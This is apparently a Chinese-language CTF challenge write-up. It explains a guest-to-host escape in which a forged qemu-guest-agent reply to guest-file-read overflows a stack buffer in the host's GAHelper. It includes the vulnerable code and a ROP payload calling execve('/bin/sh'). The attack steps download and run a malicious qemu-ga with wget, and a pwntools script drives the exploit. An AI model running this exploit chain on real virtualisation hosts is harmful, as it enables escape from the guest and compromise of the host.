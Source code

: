 ## 漏洞成因
宿主机使用了GAHelper程序对qemu-guest-agent的返回进行处理，并与之交互。
GAHelper遵循了qemu-guest-agent的api规范，同时客户机内的默认qemu-ga是官方的qga客户端程序。
攻击者可以使用自定义的qemu-ga程序发送不符合api规范的报文返回给GAHelper，从而造成GAHepler崩溃以及任意代码执行。
本题提出了一个新的攻击面，该攻击面包含了vm-tools在vmware中造成的虚拟机逃逸，以及qga在qemu虚拟机中的虚拟机逃逸风险，是CTF比赛中的首次创新。

## 漏洞细节
```guest-file-read```的api约定如下
```
Command: guest-file-read
Read from an open file in the guest. Data will be base64-encoded

Arguments:

handle: int
filehandle returned by guest-file-open

count: int (optional)
maximum number of bytes to read (default is 4KB)

Returns: GuestFileRead on success.

Since: 0.15.0
```
首先，GAHelper认为，读取的文件长度必定小于制定的长度，以及返回的count必定是真实文件读取长度。
```
cJSON *read_root = cJSON_CreateObject();
cJSON *read_arguments = cJSON_CreateObject();
cJSON_AddItemToObject(read_root, "execute", cJSON_CreateString("guest-file-read"));
cJSON_AddItemToObject(read_arguments, "handle", cJSON_CreateNumber(handle_id));
cJSON_AddItemToObject(read_arguments, "count", cJSON_CreateNumber(0x1000));
cJSON_AddItemToObject(read_root, "arguments", read_arguments);
char *tmp = cJSON_Print(read_root);
if (tmp == NULL) {
  cJSON_Delete(read_root);
  free(file_path);
  return;
}
char *read_info = SendCommandReadRet(tmp);
```
从而造成了缓冲区溢出的漏洞
```
char b64dec_buf[0x1000] = {0};
if (buf_b64 != NULL) {
  base64_decode(buf_b64, strlen(buf_b64), b64dec_buf);
  printf( "content: %s\n", b64dec_buf);
}
```
尽管base64解码会缩短返回串长度，但是依然会造成栈溢出漏洞。
```
GuestFileRead *guest_file_read_unsafe(GuestFileHandle *gfh,
                                      int64_t count, Error **errp)
{
    GuestFileRead *read_data = NULL;
    guchar *buf;
    FILE *fh = gfh->fh;
    size_t read_count;

    /* explicitly flush when switching from writing to reading */
    if (gfh->state == RW_STATE_WRITING) {
        int ret = fflush(fh);
        if (ret == EOF) {
            error_setg_errno(errp, errno, "failed to flush file");
            return NULL;
        }
        gfh->state = RW_STATE_NEW;
    }

    if (count == 0x1000) { //payload 1
      size_t syscall_addr = 0x000000000040a14c;
      size_t pop_rdi      = 0x0000000000400636;
      size_t pop_rsi      = 0x000000000040ea95;
      size_t pop_rdx      = 0x0000000000454595;
      size_t pop_rax      = 0x000000000045453c;
      guchar *payload = g_malloc0(0x2070);
      memset(payload, '\x00', 0x2070);
      *(size_t *)(payload + 0x1078) = pop_rdi;
      *(size_t *)(payload + 0x1080) = 0;
      *(size_t *)(payload + 0x1088) = pop_rsi;
      *(size_t *)(payload + 0x1090) = 0x6caff0;
      *(size_t *)(payload + 0x1098) = pop_rdx;
      *(size_t *)(payload + 0x10a0) = 0x100;
      *(size_t *)(payload + 0x10a8) = 0x454580; //read
      *(size_t *)(payload + 0x10b0) = pop_rdi;
      *(size_t *)(payload + 0x10b8) = 0x6caff0;
      *(size_t *)(payload + 0x10c0) = pop_rsi;
      *(size_t *)(payload + 0x10c8) = 0;
      *(size_t *)(payload + 0x10d0) = pop_rdx;
      *(size_t *)(payload + 0x10d8) = 0;
      *(size_t *)(payload + 0x10e0) = pop_rax;
      *(size_t *)(payload + 0x10e8) = 59;
      *(size_t *)(payload + 0x10f0) = syscall_addr;
      read_data = g_new0(GuestFileRead, 1);
      read_data->count = 0x10f8;
      read_data->eof   = 0;
      int cnt = 0x10f8;
      read_data->buf_b64 = g_base64_encode(payload, cnt);
      return read_data;
    }
```
攻击者只需要伪造这个api实现函数，忽视读取长度，就可以实现栈溢出攻击。

## 攻击步骤
### 替换qemu-ga
杀死qga进程
```kill -9 pidof qemu-ga```
下载恶意qga
```wget ip:port/qemu-ga```
植入恶意qga
```./qemu-ga --daemonize -m virtio-serial -p /dev/vport0p1```
### 执行supervisor程序
```
from pwn import *

local=0
pc=''
aslr=True
context.log_level="debug"
context.terminal = ["deepin-terminal","-x","sh","-c"]

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
    gdb.attach(p)
else:
    remote_addr=['127.0.0.1', 10007]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s):
    print('\033[1;31;40m{s}\033[0m'.format(s=s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    ru("sock num > ")
    sn(str(sys.argv[1]))
    ru("Exit\n")
    pause()
    sl("2")
    ru("size > ")
    sl("256")
    ru("path > ")
    sn("/etc/passwd")
    ru("content: \n")
    sn("/bin/sh\x00")
    p.interactive()
```
